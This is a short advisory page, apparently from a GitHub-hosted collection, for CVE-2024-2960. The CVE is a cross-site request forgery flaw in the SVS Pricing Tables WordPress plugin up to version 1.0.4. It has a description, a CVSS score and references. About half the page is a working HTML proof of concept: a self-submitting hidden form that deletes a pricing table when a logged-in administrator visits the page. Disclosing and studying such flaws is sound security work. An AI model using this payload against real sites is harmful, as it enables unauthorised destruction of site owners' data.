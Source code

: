 ```yaml
---
layout: page
title: CVE-2024-2960
subtitle: SVS Pricing Tables <= 1.0.4 - Cross-Site Request Forgery to Pricing Table Deletion
---
```

## Description
The SVS Pricing Tables plugin for WordPress is vulnerable to Cross-Site Request Forgery in all versions up to, and including, 1.0.4. This is due to missing or incorrect nonce validation on the deletePricingTable() function. This makes it possible for unauthenticated attackers to delete pricing tables via a forged request granted they can trick a site administrator into performing an action such as clicking on a link.

## Severity
 4.3 (Medium) - [CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:N/I:L/A:N](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:N/I:L/A:N)

## Affected Version
    <= 1.0.4

## PoC :
```
<html>
  <!-- eneriiiii <3 -->
  <body>
    <form action="http://[ASSETS]/wp-admin/admin.php">
      <input type="hidden" name="page" value="svs&#95;pricing&#95;tables" />
      <input type="hidden" name="Action" value="pricingTableDelete" />
      <input type="hidden" name="ID" value="1" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

## Refrence
- https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/svs-pricing-tables/svs-pricing-tables-104-cross-site-request-forgery-to-pricing-table-deletion
- https://www.cve.org/CVERecord?id=CVE-2024-2960



